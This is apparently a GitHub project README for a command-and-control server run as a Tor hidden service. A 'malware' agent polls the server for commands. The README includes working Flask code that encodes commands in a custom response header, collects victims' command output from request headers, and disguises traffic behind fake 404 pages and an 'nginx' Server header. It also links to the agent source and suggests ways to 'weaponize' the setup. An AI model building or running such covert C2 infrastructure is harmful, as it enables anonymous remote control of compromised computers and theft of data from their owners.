



# C2 Over TOR

### Introduction
This project is about setting up a _Command and Control_ as a hidden service in TOR network. An onion link is embedded in an agent or "malware" that constantly connects to that hidden service. The C2 itself is a simple flask server that sets the command to execute in the HTTP header and then expects the output from the agent. The output is just simply dumped in a file.


### Architecture

Below is the diagram of the architecture.<br />

<br />

The C2 is served as a hidden service. The agent or "malware" would connect to it through the TOR network. HTTP method must be "PUT" to fetch C2 commands. The command is stuffed in **X-CNC** header in the HTTP response. HTTP method must be  "OPTIONS" to return command output. It is stuffed by agent in the **Cnc-Output** HTTP response header. Below can be seen the flask handling of the HTTP interaction. Commands can be set in **commands.txt** . 

#### The Command and Control Server
``` python 
# In c2_server/app.py
...
@app.route('/s3cr3t', methods=['PUT', 'OPTIONS'])
def s3cr3t_cnc():
    # OPTIONS = Accepting CNC result
    resp = make_response(render_template('404.html'))
    resp.headers.set('Server', 'nginx')
    if request.method == 'OPTIONS':
        # Get CNC results
        foo = dict(request.headers)
        if foo.get('Cnc-Output', None) != None:
            command_output = b64decode(foo['Cnc-Output'])
            command_output = b"\n\n\n\n\n\n"+command_output
            write_to_file(command_output_file, command_output, w_type="ab")

        return resp, 404


    # PUT = Sending CNC commands
    elif request.method == 'PUT':
        # Set the command in the headers and in base64
        command = read_from_file(command_file,r_type="rb")
        resp.headers.set(b'X-CNC', b64encode(command))
        return resp, 404
    else:
        return resp, 404
...
```
<br />The totality of the code just returns 404 regardless there is a hit or not. In my setup, it is also behind an Nginx server and redirects traffic to http://127.0.0.1:8000/s3cr3t if _/s3cr3t_ is hit.  

#### The Agent

Below is the agent's activity Cycle.<br />

<br />

The code is written in Golang and can be seen [here](https://github.com/Altelus1/c2_tor/blob/master/agent/main.go). In the main repository also can be seen the non tor agent to test things out in  local environment. Links can be replaced by IPs instead of onion links.

### PoC

Running C2 and the agent.<br />


### End notes
Running C2 as a hidden service would come in pros and cons. Pros would be the likes of being anonymous, be able to self-host thus having a full control, or having a dynamic generated onion hostnames. Cons would be the likes of being easy to be detected in network and in host threat hunting or having a muuuuch slower connection compared to a normal C2. Enhancements or workarounds can be done to remediate the cons or weaponize the pros. At the end of the day, this is just one of the techniques can be used to serve a C2.
<br />


**Resources:**
- https://medium.com/@rishabhlakhotia/setting-up-tor-hidden-service-8af1875921c6
- https://hackernoon.com/setting-up-a-tor-hidden-service-a-how-to-guide-zs1s3yoy
- https://github.com/cretz/bine
- https://flask.palletsprojects.com/en/2.0.x/
- https://pkg.go.dev/net/http


